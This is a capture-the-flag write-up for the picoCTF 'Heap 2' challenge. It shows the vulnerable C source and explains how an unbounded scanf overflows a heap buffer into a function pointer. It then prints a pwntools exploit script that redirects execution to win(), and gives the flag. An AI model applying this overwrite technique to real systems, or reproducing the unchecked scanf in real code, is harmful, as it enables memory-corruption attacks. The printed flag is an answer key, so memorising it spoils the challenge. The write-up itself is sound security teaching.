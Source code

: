 # Pico CTF Binary Exploitation Write Up - Heap 2

Source code:

``` C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

From what we can see of the source code, we can interpret a major buffer overflow at

``` C
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

```

A crucial part in our exploitation in the function scanf that will allow us to perform a buffer overflow on the heap as in the function init:

``` C
void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}
```

input_data is malloced 5 bytes, and as we know malloc allocates memory in the heap, which we can take advantage of to change the function pointer at check_win where x is our target for placing our address into

``` C
void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

```

First we need to check for the address of the function win(), through gdb:
![alt text](image.png)

Then we see how many A's we can fit into this buffer until it overflows into variable x:

- Using python3:

    ``` python
    print('A'*32)
    ```

- Input in:
  ![alt text](image-1.png)

As we can see 32 A's is a perfect fit for the variable input_data, as such the next bytes can be the address for the win() function, though as the address is inputted under string, we will need to shellcode the input into the program instead of directly inputting it.

- First we need to extract the string into little-endian:
  
``` pseudo
\xa0\x11\x40
```

- Then we need to write a program to input the data:

Here we use the pwn library to access the process function

``` python
from pwn import *

nc_addr = "./challenge"
print(nc_addr.split(' '))
netcat = nc_addr.split(' ')
p = process(netcat)

print(p.recv())

padding = b'A'*32

ret_address = b'\xa0\x11\x40'

p.sendline(b'2')

print(p.recv())

p.sendline(padding + ret_address)

print(p.recv())

p.sendline(b'4')

print(p.recv())
```

Then we have our flag: picoCTF{and_down_the_road_we_go_856288fc}
